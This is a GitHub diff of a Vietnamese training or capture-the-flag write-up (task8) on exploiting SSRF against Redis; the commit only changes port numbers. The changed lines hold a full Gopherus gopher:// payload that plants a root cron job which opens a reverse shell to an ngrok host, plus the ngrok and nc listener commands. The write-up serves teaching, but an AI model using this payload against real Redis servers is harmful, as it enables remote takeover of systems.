

Before and after one commit to caodchuong312/KCSC-Training, a Markdown page: task8/README.md, the part around one of its changes. Drawn GitHub-style; grey boxes are pictures that could not be loaded.

````diff
--- a/task8/README.md
+++ b/task8/README.md
@@ -70,5 +70,5 @@ Như vậy cổng 6379 được mở, đây là cổng mặc định của `redi
 Lanh quanh 1 lúc trên mạng tìm được tool <a href="https://github.com/tarunkant/Gopherus" >Gopherus</a>. Đây là tool tạo payload thông qua protocol `gopher` dùng để khai thác các dịch vụ như: mysql, redis, smtp,...
 
 Sau 1 hồi tìm hiểu thì đây là cách khai thác:
-- Đầu tiên dùng `ngrok` với command `ngrok tcp 1235` để tạo ra 1 tunel từ máy đến internet qua cổng 1235 (Đây là cổng để netcat nghe reverse shell) :
+- Đầu tiên dùng `ngrok` với command `ngrok tcp 1234` để tạo ra 1 tunel từ máy đến internet qua cổng `1234` (Đây là cổng để netcat nghe reverse shell) :
 
@@ -80,11 +80,11 @@ Sau 1 hồi tìm hiểu thì đây là cách khai thác:
 
-Tuy nhiên mặc định tool tạo ra có cổng 1234 nên cần đổi nó sang cổng đã tạo ở `ngrok` (ở đây là: 16632)
+Tuy nhiên mặc định tool tạo ra có cổng `1234` nên cần đổi nó sang cổng đã tạo ở `ngrok` (ở đây là: `17025`)
 
 Payload khi đó là:
 ```
-gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2472%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/0.tcp.ap.ngrok.io/16632%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
+gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2472%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/0.tcp.ap.ngrok.io/17025%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
 ```
-- Bây giờ chỉ việc dùng `nc -lvp 1235` rồi gửi payload thôi...
+- Bây giờ chỉ việc dùng `nc -lvp 1234` rồi gửi payload thôi...
 
 Kết quả:
 
````
Also changed, not shown: other parts of task8/README.md (+2 -2 lines).
